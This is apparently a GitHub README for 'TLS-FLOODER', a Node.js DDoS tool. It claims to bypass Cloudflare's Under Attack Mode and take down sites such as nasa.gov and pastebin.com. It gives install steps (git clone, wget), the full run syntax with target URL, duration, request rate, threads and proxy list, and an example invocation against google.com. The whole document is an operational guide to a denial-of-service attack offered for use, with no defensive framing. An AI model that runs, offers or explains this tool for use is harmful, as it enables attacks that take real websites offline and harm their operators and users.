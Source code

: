 `<center>This script can take down sites that use cloudflare uam, and can also take down nasa.gov and pastebin.com sites. / tls-bypass.js was updated adding uam bypass along with flooder</center>`

#
## First install the required modules

```bash
node setup.js
```
`Wait until the installation is complete`

## Next 

# Method Flooder x Bypass V3 High Request

# Update Flooder x bypass

- High Requests HTTP/2.0
- Bypass UAM HTTP/2.0
- Support %RAND%
- Support HTTP/1.1
- Bypass mode /2.0
- Smart mode /2.0

## How to use (git clone)

1. Download or git clone this repository:

    ```bash
    git clone https://github.com/DDoS-Leaks/TLS-FLOODER/
    ```

2. Navigate to the cloned repository:

    ```bash
    cd TLS-FLOODER
    ```

3. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```

## How to use (wget)

1. Download the `tls-bypass.js` script using wget:

    ```bash
    wget https://github.com/DDoS-Leaks/TLS-FLOODER/raw/main/tls-bypass.js
    ```

2. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```
    
## Run the script

```bash
node tls-bypass.js url time port rps thread proxy.txt bypass/flooder 
```

```bash
node tls-bypass.js https://google.com 300 443/80 120 10 http.txt flooder
```
